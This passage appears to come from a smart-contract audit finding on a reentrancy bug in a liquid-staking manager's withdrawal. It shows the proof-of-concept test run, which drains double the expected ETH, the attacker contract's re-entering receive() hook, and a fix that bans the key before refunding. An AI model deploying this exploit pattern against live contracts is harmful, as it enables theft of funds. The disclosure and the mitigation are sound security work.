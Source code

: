 We run the test:

```solidity
forge test -vv --match testWithdraw_Reentrancy_POC
```

And the result is

```solidity
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[PASS] testWithdraw_Reentrancy_POC() (gas: 578021)
Logs:
  smart contract registered as a EOA representative
  true
  balance after the withdraw, expected 4 ETH, but has 8 ETH
  8000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 14.85ms
```

The function call is

`pass.withdraw("publicKeys1")`, which calls

```solidity
function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
	IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
}
```

Which trigger:

```solidity
// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);
```

Which triggers reentrancy to withdraw the fund again before the public key is banned.

```solidity
receive() external payable {
	if(!state) {
		state = true;
		this.withdraw("publicKeys1");
	}
}
```

### Recommended Mitigation Steps

We recommend ban the public key first then send the fund out, and use openzeppelin nonReentrant modifier to avoid reentrancy.

```solidity

// update the mapping
bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;

// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);
```
